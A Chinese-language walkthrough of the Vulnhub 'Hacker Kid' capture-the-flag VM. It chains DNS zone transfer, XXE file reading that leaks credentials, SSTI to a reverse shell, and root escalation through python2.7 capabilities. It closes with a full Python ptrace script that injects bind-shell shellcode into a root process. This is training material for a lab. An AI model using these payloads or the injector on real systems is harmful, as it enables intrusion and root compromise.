






Vulnhub-HACKER KID: 1.0.1 靶场实践

- - -

# Vulnhub-HACKER KID: 1.0.1 靶场实践

## 环境

靶机下载：[https://www.vulnhub.com/entry/hacker-kid-101,719/](https://www.vulnhub.com/entry/hacker-kid-101,719/)

**描述**：This box is OSCP style and focused on enumeration with easy exploitation.The goal is to get root.No guessing or heavy bruteforce is required and proper hints are given at each step to move ahead.

## 主机发现

```plain
arp-scan -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161240-0bfc0908-9cb4-1.png)

靶机的 IP 地址为 192.168.84.130

## 信息收集

扫描端口

```plain
nmap -p- -Pn -sT -sV 192.168.84.130
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161305-1b28074c-9cb4-1.png)

开放 80 端口，扫描目录并没有发现可有信息，查看首页源码，发现存在注释提示，需要 page\_on 参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161339-2f6706d6-9cb4-1.png)

加上 page\_on 参数，红字提示深度不够，猜测需要对 page\_on 爆破，应该存在一个正确值

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161353-3753ce10-9cb4-1.png)

使用 bp 对 page\_on 爆破，得到一个长度不一致的响应包，即 page\_on=21 时。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161405-3ee61a70-9cb4-1.png)

文字提示创建了很多子域名，hackers.blackhat.local 就是其中一个

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161414-43dec2a2-9cb4-1.png)

在 hosts 文件中添加 IP 与域名对应记录，使用[http://hackers.blackhat.com依然能够访问主页](http://hackers.blackhat.xn--com-j88d76dj10any3bhn0ahiu4ixnlg/)

## DIG

主页疯狂提示 DIG me，估计跟 dig 工具有关，同时与域名联系在一起，涉及 DNS 区域传送的知识

nmap 使用 TCP 与 UDP 详细扫描 53 端口

```plain
nmap -p53 -sU -sT 192.168.84.130
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161448-5848efe2-9cb4-1.png)

同时开放 TCP 和 UDP 端口，可知 TCP 端口用于区域 DNS 传送

使用 dig 命令查询域名信息

```plain
dig axfr @192.168.84.130 blackhat.local
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161502-60bcc266-9cb4-1.png)

将上述显示的域名添加到 hosts 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161511-664eb2de-9cb4-1.png)

## XXE

访问 hackerkid.blackhat.local 域名，尝试创建一个用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161519-6ac4d924-9cb4-1.png)

但是无论邮箱是否正确都创建不成功，并显示邮箱不可用，bp 抓包分析，POST 提交的数据是 xml，验证是否存在 XXE 漏洞并利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161526-6f066a5c-9cb4-1.png)

发现一个可利用用户 saket，尝试读取.bashrc 配置文件，结果无法读取，使用 php://filter 读取

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161536-74c31da0-9cb4-1.png)

base64 解码可得账户和密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161545-7a49a15e-9cb4-1.png)

还记得端口扫描中显示开放了 9999 端口，使用用户名和密码进行登录，经尝试，这里的用户名需要使用 saket 才能成功登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161557-8185f21a-9cb4-1.png)

登录成功后，提示需要输入名字，尝试加入 name 参数，经验证，name 参数处存在 SSIT 漏洞，构造反弹 shell 的 payload，并进行 url 编码

SSTI 注入漏洞验证通用 payload：`{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161607-87250c92-9cb4-1.png)

kali linux 监听 4444 端口，成功接收到弹回的 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161615-8bfe7c80-9cb4-1.png)

## Capabilitie 提权

查找设置过 capabilitie 的应用程序

```plain
/sbin/getcap -r / 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161631-95e51466-9cb4-1.png)

这里选择 python2.7 进行提权，现在需要选择一个以 root 权限运行的程序，命令查询：

```plain
ps -aux | grep root
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161640-9af295d2-9cb4-1.png)

选择 id 为 1012 的 apache 进程，下载注入 exp 并执行

```plain
python2.7 inject.py 1012
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161649-a03c8ef8-9cb4-1.png)

执行后靶机会开启 5600 端口后门，使用 kali nc 连接该端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20231217161657-a57de2b8-9cb4-1.png)

成功获取 root 权限

## 知识点

-   Capabilitie 提权
    
    [Linux 提权之：利用 capabilities 提权 - f\_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16026088.html)
    
-   DNS 主从复制 + 区域传送
    
    **DNS 在区域传输的时候使用 TCP 协议，其他时候使用 UDP 协议**
    
    DNS 区域传送有两种方式：
    
    -   axfr：完全区域传送
        
    -   ixfr：增量区域传送
        
    
    [DNS 主从复制及区域传送 - 风住 - 博客园 (cnblogs.com)](https://www.cnblogs.com/whych/p/9103161.html)
    

## exp

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):

  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)

  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
